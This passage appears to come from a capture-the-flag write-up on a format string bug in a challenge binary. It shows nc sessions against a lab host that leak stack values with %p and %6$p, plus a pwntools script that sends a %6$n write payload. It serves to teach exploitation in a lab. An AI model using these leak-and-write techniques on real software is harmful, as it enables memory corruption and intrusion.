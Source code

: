 ```c
char *username[32];
puts("Please provide your username\n");
read(0,username,sizeof(username));
```

However, the binary passes our input directly to the `printf` function as an argument, creating a format string vulnerability.

```c
printf(username);
```

Calling `printf` with our input allows us to use format specifiers. We can utilize format specifiers such as `%p` or `%c` to read values from the stack.

```console
$ nc 10.10.74.205 9009
...
Please provide your username

%p
Thanks!
0x7fa6639cd723
```

We can also observe that our input is located as the sixth item on the stack.

```console
$ nc 10.10.74.205 9009
Please provide your username

AAAAAAAA%p.%p.%p.%p.%p.%p
Thanks!
AAAAAAAA0x7f31fa505723.(nil).0x7f31fa426297.0x9.0x4.0x4141414141414141

```

Knowing this, we can also reference it as such:

```console
$ nc 10.10.74.205 9009
Please provide your username

AAAAAAAA%6$p
Thanks!
AAAAAAAA0x4141414141414141
```

Additionally, we can use the `%n` format specifier to write to the program's memory. This specifier writes the number of characters printed so far into the specified memory location.

For example, consider running the script below:

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

r = process("./materials-TryPwnMeOne/NotSpecified/notspecified")
gdb.attach(r)

payload = b"A" * 8
payload += b"%6$n"
r.recvuntil(b"Please provide your username\n")
r.sendline(payload)
r.interactive()
```
